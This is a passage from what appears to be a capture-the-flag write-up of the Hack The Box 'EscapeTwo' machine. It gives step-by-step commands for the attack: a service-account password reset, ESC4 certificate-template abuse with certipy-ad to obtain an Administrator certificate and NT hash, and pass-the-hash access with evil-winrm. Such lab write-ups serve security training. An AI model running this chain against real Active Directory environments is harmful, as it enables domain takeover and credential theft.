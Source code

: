 3. Reset the password for ca_svc:
```
net rpc password "ca_svc" 'pir4cy1sc00l!' -U "sequel.htb"/"ryan"%'WqSZAF6CysDQbGb3' -S "dc01.sequel.htb"
```

![ryan-abusing-writeowner](/images/htb/machines/EscapeTwo/ryan-abusing-writeOwner.png)

Now we have access to the 'ca_svc' account!

## ADCS Exploitation

With access to 'ca_svc', we discover that this account is a member of the CERTPUBLISHERS group, which has special privileges related to Active Directory Certificate Services (ADCS).

Using certipy-ad, we can enumerate available certificate templates:

```
certipy-ad find -u ca_svc@sequel.htb -p 'pir4cy1sc00l!' -dc-ip 10.10.11.51 -text
```
![certipy find](/images/htb/machines/EscapeTwo/certipy-find-certificates.png)

We identify a vulnerable template called "DunderMifflinAuthentication" that has the ESC4 vulnerability, allowing the CERTPUBLISHERS group to request certificates for any user, including Administrator. The vulnerability exists because members of the CERTPUBLISHERS group have enrollment rights and dangerous permissions (Full Control, Write Owner, Write DACL) on the template.

![exploitable template](/images/htb/machines/EscapeTwo/certipy-dunder-mifflin-template.png)

Let's exploit this ESC4 vulnerability to obtain a certificate for the Administrator account:

```
certipy-ad req -username ca_svc@sequel.htb -p 'pir4cy1sc00l!' -ca sequel-DC01-CA -template DunderMifflinAuthentication -target dc01.sequel.htb -upn administrator@sequel.htb 
```

![certipy admin req](/images/htb/machines/EscapeTwo/certipy-admin-forge.png)

With the certificate, we can retrieve the Administrator's NT hash:

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.51
```

![admin hash](/images/htb/machines/EscapeTwo/admin-hash.png)

Finally, we can use Evil-WinRM with the hash to get system access:

```
evil-winrm -i dc01.sequel.htb -u Administrator -H <admin hash>
```

Success! We can now grab the root.txt flag from the Administrator's desktop.

![rooted](/images/htb/machines/EscapeTwo/rooted.png)

## Conclusion
